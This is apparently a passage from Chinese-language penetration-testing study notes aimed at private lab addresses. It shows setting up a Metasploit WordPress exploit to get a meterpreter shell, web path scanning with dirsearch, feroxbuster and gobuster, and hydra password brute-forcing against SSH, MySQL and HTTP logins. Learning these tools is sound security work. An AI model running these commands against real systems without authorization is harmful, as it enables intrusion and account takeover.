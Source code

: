 ```Shell
> set RHOSTS 192.168.1.32
# RHOSTS => 192.168.1.32
> set TARGETURI /wordpress
# TARGETURI => /wordpress
> set USERNAME admin
# USERNAME => admin
```
运行
```Shell
> exploit
# 或
> run
```
跑完会进入 `meterpreter` 环境输入 `shell` 进入shell环境，但这个shell不太完善，很多命令执行有问题。

### dirsearch
Web路径扫描
```Shell
dirsearch -u http://192.168.1.25:5000
sudo dirsearch -u "http://192.168.1.58/system" --header="Authorization: Basic YWRtaW46YWRtaW4="
```

### feroxbuster
Web内容发现-Rust编写
可以指定拓展名，HTTP标头、代理、字典等
```Shell
feroxbuster --url http://192.168.1.32
feroxbuster -u http://192.168.1.49 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
```

### hydra
暴力破解工具
```Shell
# 多个用户SSH
hydra -L user.txt -P pass.txt ssh://192.168.1.27
# 单个用户SSH
hydra -l root -P /home/kali/Tools/Custom/rockyou.txt ssh://192.168.1.11

# MySQL
hydra -l root -P /home/kali/Tools/Custom/rockyou.txt mysql://192.168.1.11

# HTTP
# GET请求
hydra -L wl.txt -P wl.txt http-get://192.168.1.47/webdav/index.html
# POST请求 -f参数破解出一个就不再继续了
hydra -l admin -P /home/kali/Tools/Custom/MidPwds.txt -f "192.168.1.57" http-post-form "/student_attendance/ajax.php?action=login:username=^USER^&password=^PASS^:F=__fail_response_pattern__"
```

### gobuster
Web路径扫描-Go编写
可以指定拓展名，HTTP标头、代理、字典等
```Shell
gobuster dir -u http://192.168.1.21 -w /usr/share/seclists/Discovery/Web-Content/directory-list-1.0.txt -x php,jsp,html,js,txt
```
